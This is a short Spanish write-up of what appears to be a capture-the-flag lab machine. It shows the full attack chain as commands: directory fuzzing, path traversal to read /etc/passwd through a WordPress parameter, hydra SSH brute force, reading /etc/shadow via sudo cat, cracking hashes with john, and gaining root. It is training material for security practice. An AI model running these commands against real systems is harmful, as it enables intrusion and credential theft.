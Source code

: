 nmap: 80,22

--- 
hacemo un gobuster:

    gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,txt -k
    
y nos da un wordpress donde probamos en el buscador varios parámetros que nos da este comando:

       - wfuzz -c -u 172.18.0.2/wordpress/index.php?FUZZ=../../../../../../../../etc/passwd -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hl=40 --=115

   ---
   

        - http://172.18.0.2/wordpress/index.php?love=../../../../../../etc/passwd
        - que nos da la informacion root.
        - ahi nos da dos usuarios(rosa y pedro) y probamos con una fuerza bruta con los usuarios

fuerza bruta:

        - hydra ssh://172.18.0.2 -l rosa -P /usr/share/wordlists/rockyou.txt -t 64
    - nos da la contraseña: lovebug

ya dentro buscamos como escalar privilegios y aparece "cat" buscamos en: https://gtfobins.github.io/gtfobins/cat/  


colocamos el encontrado de esta forma:

           - sudo cat "/etc/shadow"  y nos muestra las contraseñas encriptadas.


tomamos los /etc/passwd y los shadow desde la terminal de rosa y los pasamos a la terminal nuestra. creamos un nano llamado shadow y otro passwords, luego pasamos a "unshadow passwd shadow > passwords", luego como las contraseña aparecen en formato de encriptacion ocupado el comando:  "john passwords --format=crypt" 
password es donde se guardo las cosas de contenidos de passwd y shadow de la terminal de rosa. luego de utilizar "john" nos da la contraseña de root: kittycat

colocamos en el terminal: su root / la contraseña: kittycat y somos root!. 
